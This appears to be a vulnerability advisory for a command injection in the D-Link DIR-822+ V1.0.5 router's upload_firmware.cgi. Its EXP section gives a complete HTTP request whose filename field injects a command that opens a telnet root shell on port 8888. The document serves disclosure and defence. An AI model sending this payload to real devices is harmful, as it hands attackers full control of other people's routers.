




## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `ftext` function of`upload_firmware.cgi`, which allows remote attackers to execute arbitrary commands via shell



### Vulnerability details

Vulnerability occurs in /cgi-bin/upload_firmware.cgi. Attackers can control `v3` by setting the `UPLOAD_FILENAME`.



Regardless of whether `v3` is valid or not, the following code will be executed. The value of `v3` is passed to `v9` and call system.



Based on the cause of the vulnerability, attackers can arbitrarily call system by setting the `UPLOAD_FILENAME`. 

### EXP

```
POST /cgi-bin/upload_firmware.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------28278418346116865854153533320
Content-Length: 213
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/FirmwareUpdate.html
Upgrade-Insecure-Requests: 1
-----------------------------28278418346116865854153533320
Content-Disposition: form-data; name="uploadConfigFile"; filename="`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`"
Content-Type: application/octet-stream
aaaaaa
```

